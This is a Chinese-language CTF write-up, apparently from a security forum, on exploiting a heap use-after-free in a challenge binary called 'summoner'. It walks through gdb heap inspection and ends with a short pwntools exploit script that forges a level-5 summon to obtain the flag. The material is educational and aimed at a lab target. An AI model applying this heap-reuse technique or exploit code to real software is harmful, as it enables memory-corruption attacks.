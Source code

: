这里注意到程序仅仅只释放了 `name` 的内容，并没有释放整个结构体，这也是程序的漏洞所在。

让我们用gdb调试一下： ***gdb安装pwngdb插件，可以使用 praseheap指令来更方便地调试堆***

先创建一个召唤物 aaaa，输入 `summon aaaa`：

![image-20220205202745486](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-77f5938697bede003accb5c93a1cbafcd5832d70.png)

查看此时的堆，发现除了top chunk外，还有两个chunk：

![image-20220205202702256](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-055f4efb65fc253b629dafe0a613d247886f01cb.png)

查看第一个chunk的内容，发现第一个chunk储存着第二个chunk的指针，并且第二个chunk储存着召唤物的名称aaaaa：

![image-20220205202912595](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-b8fd85e37585f22dee46579941d61c1a5e1926c1.png)

输入`level-up 4`后，查看chunk内容：

![image-20220205203233136](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-81013f398d5eea9c0d25605849a3d70b5939dc79.png)

发现第一个chunk第一位储存着name的指针（指向保存name的chunk），第二位储存着召唤物的level。

我们释放掉这个chunk试试，输入`release`：

![image-20220205204329289](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-4ef0bb961fba89198fe0711b5ed93ed3e4059c1a.png)

我们发现仅仅第二个chunk被释放掉，但是第一个chunk却没有被释放掉（指向name的指针和等级依旧存在）,这是由于**程序仅仅free掉了name指针所指向的空间，而不是free掉整个结构体**，那么当再次申请的时候，由于**first fit 机制** 就会申请到释放后 第二个chunk的地址。

具体利用的话，我们可以用写name为 `a * 8 + '\x05'`, 此时chunk里的内容如下:

![image-20220205205102518](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-5966a5189cae3107bea041fdbcefc089ecbedc73.png)

然后在`release`，

![image-20220205205333460](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3e7d9c9f4389417aa24d893d1b3f8a0aa6078ea0.png)

然后再一次 `summoner aaaa`，

![image-20220205205540991](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-926a1f5bf8ab27b7eaa5e8286ea349f6c1480c20.png)

我们发现结构体的空间申请到了name的位置，这里有我们精心构造的数据（第二为为0x5），这样我们就成功召唤出了一个等级为五的召唤物，即可以get flag了。

![image-20220205205819662](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-34a4d9baf72fa5f026478216a940e2f1122a6510.png)

**完整EXP：**

```python
from pwn import *
context.log_level = 'debug'
p = process("./summoner")

def sla(signal, content):
    p.sendlineafter(signal, content)

sla('>','summon ' + 'a'*8 + '\x05')
sla('>','release')
sla('>','summon aaaa')
sla('>','show')
sla('>','strike')

p.interactive()
```
